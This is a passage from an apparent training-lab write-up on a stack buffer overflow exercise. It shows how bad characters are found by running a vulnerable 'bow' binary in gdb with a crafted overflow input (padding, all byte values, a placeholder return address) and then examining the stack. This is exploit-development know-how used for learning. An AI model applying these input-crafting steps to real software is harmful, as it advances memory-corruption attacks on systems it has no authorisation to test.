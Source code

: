 This process must be repeated until all characters that could interrupt the flow are removed.

Q: Find all bad characters that change or interrupt our sent bytes' order and submit them as the answer (e.g., format: \x00\x11).

**Hint: There are 4 different bad characters in total.**

A: `\x00\x09\x0a\x20`

**Solution**

Connect to the academy vpn after that connect to the machine using ssh **Note: In this part they didn't have a deploy button so go to the previous page and there deploy the machine and connect to it** after connecting to the ssh run the `bow` binary in `gdb` using the following command.
```shell
$ gdb -q bow
```
Now you open the binary in `gdb` so now use the `disas main` command in `gdb` this will disassemble main function There you can see `bow func` call so we can set break point there that means program will broke that point and then we can see what is the value of registers.we can set break point with the following command
```gdb
(gdb) break bowfunc
```
Now our break point is set so we can run the program with our input that contains the value of buffer,Bad Characters and our payload etc.

Bad Characters are following
```bad char
"\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```

So we have to see which bad characters are ignored in memory so we run the command like following

```gdb
(gdb) run $(python -c 'print "\x55"*(1040-256-4)+ "\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f  
\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2  
c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x  
49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\  
x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82  
\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9  
f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\x  
bc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\  
xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5  
\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"+ "\x66"*4')
```
So when this run and our break point will call so then we use the following command to see our register values to see what happened there.
```
(gdb) x/2000xb $esp+500
```